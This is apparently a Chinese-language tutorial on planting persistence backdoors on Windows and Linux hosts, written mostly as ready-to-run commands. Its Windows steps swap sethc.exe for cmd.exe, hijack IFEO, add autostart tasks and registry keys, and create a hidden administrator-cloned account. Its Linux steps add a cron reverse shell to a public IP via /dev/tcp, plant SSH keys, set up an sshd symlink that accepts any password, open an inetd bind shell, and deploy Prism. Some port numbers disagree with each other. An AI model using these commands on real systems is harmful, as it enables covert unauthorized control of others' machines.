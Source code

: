 # Windows后门

> 常见的后门:`shift后门`,`启动项&计划任务`,`映像劫持`,`影子账户`,`远控软件`

### 粘滞键

- 在Windows系统按5下`shift`后,Windows就运行了`System32`下的`sethc.exe`,启动`粘滞键`
- 粘滞键的位置:`C:\Windows\system32\sethc.exe`

```cmd
cd c:/windows/system32/
takeown /f sethc.exe
icacls sethc.exe /grant %username%:F
copy cmd.exe sethc.exe 
```

****

### 映像劫持

- 注册表中的`位置`

```cmd
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
```

- 在该目录下添加一个`sethc.exe`

<img src="./assets/image-20241031114644833.png" alt="image-20241031114644833" style="zoom: 50%;" />

- 也可以使用`命令行`创建

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

****

### 计划任务后门

- 每分钟执行一次 `cmd`

```cmd
schtasks /create /tn "chrom" /tr cmd.exe /sc minute /mo 1
```

****

### 注册表自启动后门

- 位置

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

<img src="./assets/image-20241031152617887.png" alt="image-20241031152617887" style="zoom:50%;" />

- 这样就实现开机自启动

```cmd
# 也可以用
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "StartupCMD" /f
```

****

### 创建影子用户

- 创建一个`隐藏的账户`

```cmd
net user smile$ 334455 /add
```

- 找到`注册表`(需要给权限)

```cmd
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\
```

<img src="./assets/image-20241031160646820.png" alt="image-20241031160646820" style="zoom: 33%;" />

- 将`administrator`对应的`F`值`复制`到`后门用户`的`F`值

<img src="./assets/image-20241031161048050.png" alt="image-20241031161048050" style="zoom:33%;" />

- `导出`,然后删除`test$`,再删除创建的用户

<img src="./assets/image-20241031163803384.png" alt="image-20241031163803384" style="zoom:33%;" />

```cmd
net user smile$ /del
```

<img src="./assets/image-20241031163932627.png" alt="image-20241031163932627" style="zoom: 25%;" />

- 远程连接成功!

****

# Linux后门

> `计划任务`,`ssh公钥`,`ssh软连接`,`Prism后门`

### 计划任务反弹shell

- bash命令行编写计划任务

```bash
# 进入编辑器
crontab -e
#插入下面的内容
bash -c 'exec bash -i &>/dev/tcp/8.137.60.154/1234 <&1'
```

- 监听,等待反弹

```bash
nc -lvp 7777
```

<img src="./assets/image-20241031195411332.png" alt="image-20241031195411332" style="zoom:33%;" />

****

### SSH公钥免密

- 使用命令在本地生成`公钥`

```cmd
ssh-keygen -t rsa
```

<img src="./assets/image-20241031195728060.png" alt="image-20241031195728060" style="zoom: 50%;" />

- 将`密钥`复制到目标机器

```cmd
# 在物理机写公钥
scp C:\Users\24937\.ssh\id_rsa.pub root@192.168.193.250:/root/.ssh/authorized_keys
```

![image-20241031201448302](./assets/image-20241031201448302.png)

- 尝试`免密码`连接

![image-20241031201514311](./assets/image-20241031201514311.png)

****

### SSH软连接后门

- 使用`sshd`建立软连接,用任意密码实现登录
- 原理:利用`PAM`配置文件的作用,将sshd文件软连接名称设置为`su`,这样应用在启动过程中会去PAM配置文件中寻找是否存在对应名称的配置信息(su),su在pam rootok只检测uid 0 即可认证成功,也可以使用其它软连接名字,但是文件`必须得在/etc/pam.d目录下存在`    

- 特点:`隐蔽性较弱`,本地查看`端口`会暴露,能绕过一些网络设备的安全流量监控                                               

- 创建`软连接`,设置`监听端口`

```bash
# 建立软连接
ln -sf /usr/sbin/sshd /tmp/su
# 设置监听端口
/tmp/su -oPort=6666
# 连接ssh
ssh root@192.168.x.x -p 8080
```

…

- `inetd/xinetd`

```bash
vim /etc/inetd.conf
daytime stream tcp nowwait root /bin/bash bash -i
sudo systemctl start openbsd-inetd
nc -lvvp 192.168.x.x 13
```



### Prism后门

- 编译`prism.c`文件

```bash
gcc -DDETACH -Wall -s -o prism prism.c
```

- 查看`prism`后门的配置信息

```bash
./prism Inf0
```

<img src="./assets/image-20241031210342811.png" alt="image-20241031210342811" style="zoom: 50%;" />

- 将后门传到kali,运行`sendPacket.py`脚本

```bash
sudo python ./sendPacket.py 目标靶机IP 连接密码 攻击机IP 攻击机监听端口
sudo python ./sendPacket.py 192.168.66.251 p4ssw0rd 192.168.66.1 4444
nc -lvvp 1234
```

